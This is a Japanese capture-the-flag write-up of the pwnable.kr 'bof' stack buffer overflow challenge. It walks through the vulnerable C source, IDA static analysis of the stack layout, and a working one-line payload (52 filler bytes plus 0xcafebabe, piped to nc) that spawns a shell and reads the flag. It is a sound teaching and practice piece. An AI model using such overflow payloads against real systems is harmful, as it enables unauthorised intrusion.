





# 内容
buffer overflowの問題。動的解析と静的解析があるが、今回は静的解析を行う。
理由は、私の環境だと、32bitのgdbが使えないから。どうも、winndowsのWLSは64bitしか対応して無いみたい。
以下stackoverflowに質問している記事があったので、載せる

[Run 32-bit application on Ubuntu on Windows subsystem for Linux](https://superuser.com/questions/1407730/run-32-bit-application-on-ubuntu-on-windows-subsystem-for-linux)

では、初めに、問題のプログラムを実行してみる
何か文字を入力すると、”overflow me”と言って終了する模様。

```bash
$ nc pwnable.kr 9000
ttttttttttttttttttttttttttttt
overflow me :
Nah..
```

## buf.c
実際のプログラムを見てみる。
get(overflow)でユーザーが文字の文字入力を受け付けている。
しかし、その次の行でif文ではoverflowの文字が使われていないので、systemコールを呼ぶことが出来ない。
そのため、overflow変数をバッファーをオーバーフローさせて、変数keyの値を変更しなくてはならない。

```c
include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

# 静的解析
静的解析ではida, ghidra, objdump等がある。今回はidaを使用する。

idaを開いたら、まず見るべきはfunction windowのなかのmain



これだけだと、初心者の私はわからないので、ソースコードと照らし合わせてみる。
とりあえず、関数を実行している箇所は判明した。
スタックの積み方は基本以下のような形なのだが、直接espのポインタに値を代入している。
コンパイラによってはこんな出力をはくみたいだが、リバースエンジニアリング初心者の私にとっては読みにくい。

```assembly
push 0DEADBEEFh
```




次に、func関数を見てみる。




* カナリアと言うのはc言語におけるバッファーオバーフローの検地用バイトらしい。gccでコンパイルするときにオプションを指定すると入る。
* この検地バイトはfunc関数が終わった後に実行されるため、今回のようにfunc関数内でsysytemコールを行っている場合は問題ない。
* カナリアを回避する方法もあるらしい（余り調べてないのでわからないです）。

これらのことから、アドレスの配置は以下のようになると考えられる。


よって、overflowから52文字適当な値を入れて、そのあと、if文にハードコーティングされている１６進数の値を入力すれば、うまくいくことになる。

# 結果
* x86なので、入力する値はリトルエンディアンになる
```bash
$ (python -c 'print("A"*52 + "\xbe\xba\xfe\xca") ' ; cat ) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
^C
```
フラグゲット。

## 補足
エクスプロイトでcatコマンドを入れている理由は、shellをとっても文字が出力されなかったため。
catにこのような使い方があることを初めて知った。
これを理解するにはpstreeを見るとよい。
pstreeでは、catが入力の待ち状態になって、
* うまくコピペできなかったので、少し手を加えている。
```bash
init----init----bash---pstree
     |
     |----init----bash----bash----cat
                   |----nc
```
